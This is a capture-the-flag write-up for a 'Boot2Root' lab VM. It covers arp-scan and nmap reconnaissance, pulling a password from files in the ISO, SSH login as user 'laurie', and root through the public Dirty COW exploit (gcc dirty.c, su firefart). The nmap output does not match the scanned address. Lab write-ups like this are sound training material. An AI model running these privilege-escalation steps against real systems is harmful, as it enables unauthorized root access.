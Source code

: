 # Boot2Root

## write up 2

### find the ip of the vm

```
$ arp-scan -l -I eth0
[...]
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
10.0.2.1 52:54:00:12:35:00 QEMU
10.0.2.2 52:54:00:12:35:00 QEMU
10.0.2.3 08:00:27:c9:e5:50 CADMUS COMPUTER SYSTEMS
10.0.2.17 08:00:27:6d:9d:0b	CADMUS COMPUTER SYSTEMS
```


### scan vm ports  

```
$ nmap 10.0.2.17
[...]
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-22 14:14 CET
Nmap scan report for 192.168.80.1
Host is up (0.00019s latency).
Not shown: 967 closed ports, 32 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.80.128
Host is up (0.00053s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

### Work around the iso

see the install fs in scripts/

steps :
- mount the file system os located in the iso
```
$ mount /mnt/iso/casper/filesystem.squashfs /mnt/fs/ -t squashfs -o loop
$ cat /mnt/fs
[...]
```

Here we go, there is an archive in /home/LOOKATME
```
$ file fun
fun: POSIX tar archive (GNU)
```
```
$ tar xvf fun ; ls
ft_fun  fun  README
```
After some trouble we can see there is some .pcap files containing a .c file

With a little script in python we are able to recover the source file an then build it.

### laurie passwd
```
==> Iheartpwnage ======================================================>
																	   |
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  <=====

```
From here we can connect through ssh on the machine as laurie user.

### Dirty Cow, Race condition ptrace based

we can gather some info on our os :

Kernel version
```
$ uname -r
3.2.0-91-generic-pae
```

we can, with some research find an exploit with this requirement

Dirty Cow is a race condition exploit who's exploit the ptrace fct.

```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)

$ gcc -pthread dirty.c -o dirty -lcrypt && ./dirty
[...]
create password :
helloworld
```
an then :
```
$ su firefart
helloworld
[...]
root@root# 
```

## We became root !

